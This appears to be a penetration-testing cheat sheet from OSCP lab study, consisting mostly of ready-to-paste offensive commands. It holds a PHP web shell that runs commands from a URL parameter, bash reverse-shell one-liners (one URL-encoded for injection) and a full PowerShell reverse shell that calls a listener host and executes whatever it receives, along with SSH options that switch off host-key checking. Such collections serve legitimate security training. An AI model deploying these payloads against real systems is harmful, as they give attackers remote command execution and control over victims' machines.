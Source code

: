 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.241',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]